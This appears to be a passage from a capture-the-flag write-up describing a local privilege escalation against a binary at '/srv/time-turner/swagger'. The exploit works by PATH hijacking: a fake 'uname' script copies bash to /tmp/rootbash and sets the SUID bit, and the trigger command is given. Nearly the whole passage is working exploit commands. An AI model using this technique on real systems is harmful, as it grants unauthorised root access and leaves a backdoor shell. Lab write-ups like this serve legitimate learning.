So to exploit I do the following command sequentially. <br/>
1. Create a script named `uname` in `/tmp` directory.
```bash
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
echo "SUID bash created at /tmp/rootbash"
```
2. Modify the `PATH` 
```bash
export PATH=/tmp:$PATH
```
3. Run 
```bash
echo 1234 | /srv/time-turner/swagger | tr -dc '0-9' | /srv/time-turner/swagger
```
 <br/>